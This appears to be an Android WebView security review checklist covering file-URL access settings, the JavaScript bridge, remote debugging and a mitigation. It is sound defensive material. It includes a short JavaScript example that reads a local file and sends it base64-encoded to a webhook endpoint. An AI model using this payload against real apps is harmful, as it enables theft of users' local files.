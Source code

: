 # WebViews

## File Access in WebViews
- By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the `android.permission.READ_EXTERNAL_STORAGE` permission can read files from external storage using a file URL scheme (file://path/to/file).

- [ ] **Check for `loadURL()` Function**
  - [ ] **Check for `WebView.getSettings().setJavaScriptEnabled(true)`**: This setting allows the execution of JavaScript code within the WebView. WebViews can handle the intent scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "url" that could be exploited to execute cross-site scripting (XSS) attacks.

  > **Note:** This setting alone isn't always sufficient to pose a high security risk. Additional settings need to be checked, such as the following:
- **Deprecated Features: Universal and File Access From URLs**
  - [ ] **Check for `WebView.setAllowUniversalAccessFromFileURLs(true)`**: This setting removes all same-origin policy restrictions and allows the WebView to make requests from file URLs to the web. This can potentially allow an attacker to read local files using JavaScript and send them to an attacker-controlled domain.
  - [ ] **Check for `WebView.setAllowFileAccessFromFileURLs(true)`**: File Access From File URLs > This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.

- **WebViewAssetLoader (Mitigation):**
  - The WebViewAssetLoader class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

- **Javascript Bridge**
  - A feature is provided by Android that enables JavaScript in a WebView to invoke native Android app functions. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a WebView JavaScript bridge. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

    - Extreme caution is required for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.
  - [ ] **Check for `WebView.addJavascriptInterface("OBJECT_OF_JAVA_CLASS", "OBJECT_OF_JAVASCRIPT_CLASS")`**: This setting creates an interface between JavaScript in the WebView and Java code defined in the interface. From the JavaScript object, public functions from the Java object class can be called.

## Example of JavaScript Code for Data Exfiltration

```javascript
<script>
var xhr = new XMLHttpRequest();
var xhr2 = new XMLHttpRequest();

xhr.onreadystatechange = () => {
    if (xhr.readyState === 4) {
        xhr2.open("POST", "https://webhook.site/your-endpoint");
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send('data=' + btoa(xhr.responseText));
    }
};

xhr.open("GET", "file:///path/to/file", true);
xhr.send();
</script>
```
- [ ] Check for Remote Debugging with `WebView.setWebContentsDebuggingEnabled(true);`
    - If enabled, anyone on the same local network can see , control the WebView and execute JavaScript code.

    - You can test WebView remote debugging using chrome://inspect/#devices in Google Chrome.

## Resources
- [Web view Check list](https://blog.oversecured.com/Android-security-checklist-webview/)
- [HackTricks - WebView](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/webview-attacks)